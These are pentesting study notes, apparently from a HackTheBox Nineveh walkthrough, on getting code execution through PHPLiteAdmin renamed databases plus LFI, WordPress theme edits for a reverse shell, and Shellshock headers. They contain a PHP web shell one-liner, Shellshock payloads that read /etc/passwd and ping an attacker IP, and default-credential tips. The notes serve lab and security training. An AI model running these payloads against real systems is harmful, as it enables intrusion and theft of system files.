# PHPLiteAdmin (ippsec:Nineveh)
- Common way to is to upload any text and then add a .php extension on it to make it executable.
- More information on how to do this exploit is in searchsploit record /exploits/php/webapps/24044.txt.
1. Create new database with 1 field. 
2. In the field, put PHP code with PHP tags.  Might have to use a single or a double quotes in the one-liner to make it work.  Best to test this out with a simple command injection rather than going straight for a reverse shell.  Good example script to use is:  
```
<?php echo system ($_REQUEST['teststring']); ?>
```
3. Change the Type to Text for the field.
4. Rename the database to a name with the extension of .php.
5. This gives us an opportunity to inject shellcode which can be executed with an LFI vulnerability on the web page to run the code.  If we execute with LFI, we just have to direct to the location of the database and then add a parameter (teststring) to inject whatever command we want.
```
...?variable=[location of renamed DB from step 4].php&teststring=[command]
```
6. Once you've confirmed that command execution exists, then we can move onto a reverse shell script (can be any reverse shell – not just a PHP one because we have direct OS command injection).

# Content Management Systems (CMS)
- Usually have default creds like admin:admin.
- With Admin access:
  - Look for editing Themes, Plugins, File Uploads, Folders, or Backups as these functions almost always run PHP code to get code execution.  If we can't do things like edit and save these functions, then our access is likely read-only (even if we're admin) and not able to get code execution.
  
## Wordpress
- The login pages have a "Forgot Password" section which can allow you to enumerate valid and invalid usernames.
- If you have admin rights to the themes of the web application:
1. Edit the header.php or 404.php pages to include a PHP reverse shell.
2. Navigate to the web address where the edited page is to execute the reverse shell.

# Shellshock
## Background
- CVE-2014-7169, 6277, 7186, 7187
- Flaw in the way that Bash handled functions being defined within the environmental variables and exported them.
- Adversary identifies areas where input from attacker is used in a Bash environmental variable.

## Exploit
Attempt these exploit strings within HTTP Request Headers as that is the most common place vulnerable CGI Environmental Variables are located in web applications.
1. Non-blind Injection
```
() { 1010;};echo;[full path to command]
```
  - /usr/bin/id
  - /bin/cat /etc/passwd
2. Blind Injection
```
() { 1010;};echo;ping -c 1 [attacker IP]
```
  - Need to have a python webserver running on the attacker machine on port 80.
```
() { 1010;};echo;sleep 10
```